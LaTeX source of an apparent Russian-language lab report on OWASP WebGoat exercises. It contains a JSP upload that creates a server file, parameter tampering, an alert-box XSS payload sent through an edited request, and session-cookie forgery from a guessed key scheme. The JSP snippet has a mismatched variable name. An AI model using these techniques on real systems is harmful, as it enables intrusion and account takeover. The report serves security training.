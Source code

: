 \documentclass[a4paper, 14pt]{article}				%
\begin{document}
\subsection{Исполнение злонамеренного кода}
Если злоумышленнику известна директория с исполняемыми файлами, то он может загрузить туда свой код и исполнить его.
Загрузим на сервер скрипт со следущим содержанием
\begin{Verbatim}[frame=single]
<html>
<%
java.io.File fil = new java.io.File(''D:\WebGoat-5.4\tomcat
\webapps\WebGoat\mfe_target\guest.txt'');
file.createNewFile();
%>
</html>
\end{Verbatim}

\newpage
\subsection{Подделка параметров}
В части Bypass HTML Field Restrictions необходимо в перехваченном сообщении поменять значение всех полей и добавить  disabledinput.

Часть Exploit Hidden Fields выполняется аналогично.

Третья часть выполняется аналогично: в поле собщения вводим тело скрипта
\begin{Verbatim}[frame=single]
<script>alert("hey")</script>
\end{Verbatim}
Для отправки скрипта на другой адрес меняем в перехваченном пакете значение аргумента to, чтобы получился такой код
\begin{Verbatim}[frame=single]
gId=GMail+id&gPass=password&subject=Comment+for+WebGoat&
to=friend%40owasp.org&msg=%3Cscript%3Ealert%28%22hey%22
%29%3C.script%3E&SUBMIT=Send%21
\end{Verbatim}

Bypass Client Side JavaScript Validation выполняется таким е способом.

\subsection{Недостатки управление сессией}
При перехвате пакетов получаем два ключа
\begin{Verbatim}[frame=single]
для webgoat - 65432ubphcfx
для aspect    - 65432udfqtb
\end{Verbatim}
Нетрудно догадаться, что ключи получаются путем прибавления числа 65432 в начало и сдвига всех букв на 1 вперед, причем имя записывается задом наперед. Получается, что для логина alice ключ будет 65432fdjmb. Далее перехватываем пакет и меняем заголовок Cookie AuthCookie=65432fdjmb.
\end{document}
